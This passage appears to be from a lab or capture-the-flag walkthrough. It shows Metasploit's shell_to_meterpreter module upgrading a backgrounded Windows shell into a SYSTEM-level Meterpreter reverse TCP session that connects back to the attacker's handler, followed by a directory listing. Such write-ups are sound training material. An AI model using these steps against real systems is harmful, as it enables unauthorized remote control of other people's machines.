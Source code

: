 ## Now We Gain Access

> **ctrl + z to save session** 

```js
C:\>^Z
Background session 1? [y/N]  y
```

## Time to convert shell to meterpreter shell 

>**use post/multi/manage/shell_to_meterpreter**

### Now I gain meterpreter shell:

```js
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.9.49:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (203846 bytes) to 10.10.155.206
[*] Stopping exploit/multi/handler
[*] Meterpreter session 2 opened (10.10.9.49:4433 -> 10.10.155.206:49268) at 2025-08-06 11:17:59 +0100

msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type                  Information            Connection
  --  ----  ----                  -----------            ----------
  1         shell x64/windows     Shell Banner: Microso  10.10.9.49:4444 -> 10
                                  ft Windows [Version 6  .10.155.206:49251 (10
                                  .1.7601] -----         .10.155.206)
  2         meterpreter x64/wind  NT AUTHORITY\SYSTEM @  10.10.9.49:4433 -> 10
            ows                    JON-PC                .10.155.206:49265 (10
                                                         .10.155.206)
  

msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > ls
Listing: C:\
============

Mode            Size   Type  Last modified            Name
----            ----   ----  -------------            ----
040777/rwxrwxr  0      dir   2018-12-13 03:13:36 +00  $Recycle.Bin
wx                           00
040777/rwxrwxr  0      dir   2009-07-14 06:08:56 +01  Documents and Settings
wx                           00
040777/rwxrwxr  0      dir   2009-07-14 04:20:08 +01  PerfLogs
wx                           00
040555/r-xr-xr  4096   dir   2019-03-17 22:22:01 +00  Program Files
-x                           00
040555/r-xr-xr  4096   dir   2019-03-17 22:28:38 +00  Program Files (x86)
-x                           00
040777/rwxrwxr  4096   dir   2019-03-17 22:35:57 +00  ProgramData
wx                           00
040777/rwxrwxr  0      dir   2018-12-13 03:13:22 +00  Recovery
```